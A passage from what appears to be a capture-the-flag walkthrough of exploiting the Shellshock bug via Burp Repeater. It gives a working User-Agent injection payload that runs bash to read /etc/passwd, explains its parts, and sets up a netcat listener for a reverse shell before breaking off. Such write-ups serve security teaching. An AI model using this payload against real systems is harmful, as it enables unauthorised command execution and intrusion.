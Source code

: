 Burp Repeater will send a request for user.sh with a modified header value. If the system is vulnerable to Shell Shock, we can get bash to execute code.

Enter this as the User-Agent value.

`() { :; }; echo; /bin/bash -c 'cat /etc/passwd'`

![burp repeater](./shockerburprepeater.jpg)

Look at the response on the right-hand side. The passwd file is returned as part of the response.

**The system is vulnerable to Shell Shock.**

Before we move on to getting a shell on the system, let's take a closer look at the modified header value to understand how it works.

`() { :; }; echo; /bin/bash -c 'cat /etc/passwd'`

* `() { :; };` - syntax of an empty bash function

* `echo;` - the subsequent command works without this echo command, but you need it to receive a well-formed HTML response ([with an empty line between the headers and the content](https://www.w3.org/Protocols/rfc2616/rfc2616-sec4.html)). In other words, if you expect text output and you want to see it as part of the HTML response, you need this.

* `/bin/bash -c 'cat /etc/passwd'` - getting a new bash session to print the passwd file

# Attacks and Exploits

## Exploiting Shellshock

First, let's setup a listener for catching our reverse shell.

`nc -nvlp 8888`

Then, send another request for user.sh with the header value modified as:
